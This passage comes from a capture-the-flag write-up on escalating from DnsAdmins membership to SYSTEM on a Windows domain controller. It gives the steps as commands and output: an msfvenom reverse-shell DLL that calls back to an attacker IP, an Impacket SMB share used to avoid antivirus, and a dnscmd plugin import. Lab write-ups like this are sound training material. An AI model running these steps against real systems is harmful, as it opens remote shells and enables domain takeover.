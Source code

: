 
This time, we notice this account is member of MEGABANK\Contractors and MEGABANK\DnsAdmins.

Let's google what we can do from being a DNS Admin. We can find several links about how to escalate privileges. The most usefull links I found are :
- Windows Privilege Escalation: DNSAdmins to Domain Admins - Server Level DLL Injection: https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/
- DNS Admin Privesc in Active Directory (AD)(Windows): https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2
- From DnsAdmins to SYSTEM to Domain Compromise: https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise


### 4.3- Post-Compromise Exploitation

#### Plan
Now, the plan is :
1. Making a dll payload that sends a reverse shell back to our machine with `msfvenom`.
2. Making it available to the Windows machine. And, we will also set up a netcat listener to catch our reverse shell.
3. Importing that dll in the DNS Server.
4. Restarting the DNS Server so that it loads the dll file.


#### Warning
Executing this plan **will probably crash the DNS service:** using DLLs that do not conform to the plugin requirements is not stealthy and this type of activity probably will get picked up by defenders really quickly unless you can restore the DNS service immediately.
Of course, doing this in a CTF is fine, but think twice before doing anything in a real life assessment. Your customer might become stealthy when it comes to pay you, at least stealthier than you when exploiting his network.
[IppSec](https://www.hackthebox.eu/home/users/profile/3769) explains very well everything about the exploit and how to do to not crash the server [here](https://www.youtube.com/watch?v=8KJebvmd1Fk&t=3183s).

#### The payload
A classic reverse tcp shell will works fine:
~~~
root@kali:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.23 LPORT=1234 --platform=windows -f dll > plugin.dll
~~~

#### Importing the DLL

If we download it on the target using `Invoke-WebRequest`, it gets nuked by the Anti-Virus. This is why we will serve a SMB share. `smbserver.py` from `Impacket` is very usefull to do so:
~~~
root@kali:~# smbserver.py exploit ./
~~~

On the target, we import the plugin with `dnscmd`:
~~~
*Evil-WinRM* PS C:\Users\all users\tmp> dnscmd resolute /config /serverlevelplugindll \\10.10.14.23\exploit\plugin.dll
Registry property serverlevelplugindll successfully reset.
Command completed successfully.
~~~
